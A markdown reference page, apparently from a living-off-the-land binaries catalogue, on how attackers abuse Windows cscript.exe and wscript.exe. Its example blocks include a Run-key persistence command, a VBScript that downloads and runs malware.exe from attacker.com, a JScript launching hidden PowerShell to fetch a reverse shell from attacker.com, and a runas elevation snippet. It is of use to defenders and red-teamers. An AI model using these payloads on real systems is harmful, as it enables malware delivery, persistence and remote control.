 # cscript.exe / wscript.exe
## What is it?
*Windows script host interpreters for VBScript and JScript.*

## Legitimate Use
- *Used for executing administrative scripts.*

## How to Abuse it
- *Attackers can use them to execute malicious VBScripts for persistence.*

## Example Attacks
```
wscript.exe C:\malicious.vbs

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MaliciousScript /t REG_SZ /d "wscript.exe C:\Users\Public\malicious.vbs"
```
*vbs script*
```
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
Set objADOStream = CreateObject("ADODB.Stream")

objXMLHTTP.Open "GET", "http://attacker.com/malware.exe", False
objXMLHTTP.Send

If objXMLHTTP.Status = 200 Then
    objADOStream.Open
    objADOStream.Type = 1
    objADOStream.Write objXMLHTTP.ResponseBody
    objADOStream.Position = 0
    objADOStream.SaveToFile "C:\Users\Public\malware.exe", 2
    objADOStream.Close
    CreateObject("WScript.Shell").Run "C:\Users\Public\malware.exe"
End If
```

```
wscript.exe C:\Users\Public\malicious.vbs

```
*js script*
```
var shell = new ActiveXObject("WScript.Shell");
shell.run("powershell -NoP -NonI -W Hidden -Exec Bypass -C \"IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/reverse.ps1')\"");
```

```
cscript.exe C:\Users\Public\reverse_shell.js
```
*fileless*
```
wscript.exe /E:vbscript /B "Execute(""msgbox(""aSimpleMessage"")"")"
```
*UAC Bypass via WScript.Shell*
```
Set objShell = CreateObject("Shell.Application")
objShell.ShellExecute "cmd.exe", "/c C:\Users\Public\malware.exe", "", "runas", 1
```
*multi-script.wsf*
```
<job>
    <script language="VBScript">
        WScript.Echo "Running VBScript"
    </script>
    <script language="JScript">
        WScript.Echo("Running JScript");
    </script>
</job>
```
```
wscript.exe C:\Users\Public\malicious.wsf
```
